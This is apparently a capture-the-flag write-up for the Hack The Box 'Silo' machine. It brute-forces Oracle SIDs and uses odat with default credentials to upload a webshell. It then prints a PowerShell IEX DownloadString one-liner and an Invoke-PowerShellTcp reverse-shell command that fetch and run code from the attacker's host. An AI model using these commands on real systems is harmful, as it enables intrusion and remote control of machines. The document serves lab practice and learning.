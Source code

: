 # 10 - Oracle


# SID bruteforce
![](vx_images/5966739228874.png)

# Credential bruteforce 

I followed all the steps on [this](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener) hacktricks article but couldn't find anything useful except for a couple of SIDs. There is another tool [odat](https://github.com/quentinhardy/odat) mentioned at the end of the article. It's a lot powerful than any of the other tools. Release files work  out of the box no need to compile or anything like that.


![](vx_images/558432859644.png)


# We got a default username and password
![](vx_images/2262561546286.png)

# Code execution through file upload

![](vx_images/3956748238875.png)

Connection options:
*  -s SERVER                                  server
*  -p PORT                                    port (Default 1521)
*  -U USER                                    Oracle username
*  -P PASSWORD                                Oracle password
*  -d SID                                     Oracle System ID (SID)
*  --sysdba                                   connection as SYSDBA # gives us privileges 


utlfile commands:
*  --putFile remotePath remoteFile localFile  put a file to the remote database server


Note: I didn't realize its true power, we could have uploaded a reverse shell executable and run it through odat to gain root because with sysdba it executes as root.  Instead of executing our shell as root let's go ahead and execute our shell as the IIS user.


# Our webshell is uploaded 

![](vx_images/5356737796398.png)

Let's upgrade it to a reverse powershell

```
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/silo/exploit]
└─$ locate Invoke-PowerShellTcp
/opt/nishang/Shells/Invoke-PowerShellTcp.ps1
/opt/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1
/opt/nishang/Shells/Invoke-PowerShellTcpOneLineBind.ps1
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/silo/exploit]
└─$ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/silo/exploit]
└─$ echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.9 -Port 4444" >> Invoke-PowerShellTcp.ps1 
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/silo/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We are ready to download and  invoke our reverse shell now, let's execute the following line of code at cmdasp.aspx

```bash
powershell IEX (New-Object Net.WebClient).DownloadString('http://$IP/Invoke-PowerShellTcp.ps1')
```
![](vx_images/5633991595490.png)

# Here we see the  request
![](vx_images/4804416921241.png)

# And finally powershell is connected back to us

![](vx_images/195482869645.png)